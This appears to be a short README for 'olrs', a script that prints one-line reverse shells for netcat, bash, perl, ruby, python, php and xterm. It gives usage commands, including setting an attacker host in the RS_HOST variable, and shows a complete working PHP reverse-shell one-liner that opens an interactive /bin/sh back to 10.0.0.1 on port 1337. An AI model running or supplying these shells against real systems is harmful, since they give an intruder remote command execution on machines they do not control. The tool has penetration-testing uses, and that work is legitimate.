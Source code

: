 # olrs
one line reverse shells

# usage

`$ chmod +x olrs.sh`

#### olrs will check for `RS_HOST` ENV variable first and use it if no host is provided

`export RS_HOST=10.0.0.1 >> ~/.bashrc && source ~/.bashrc`

`$ ./olrs.sh -l php -p 1337`

#### if no RS_HOST ENV variable

`$./olrs.sh -l php -h 10.0.0.1 -p 1337`

#### prints 
`$ php -r '$sock=fsockopen("10.0.0.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`


# options

* `[-l language] nc | ncs (netcat without execute) | perl | ruby | bash | xterm | python | php`
* `[-h host]`
* `[-p port]` default = 1337
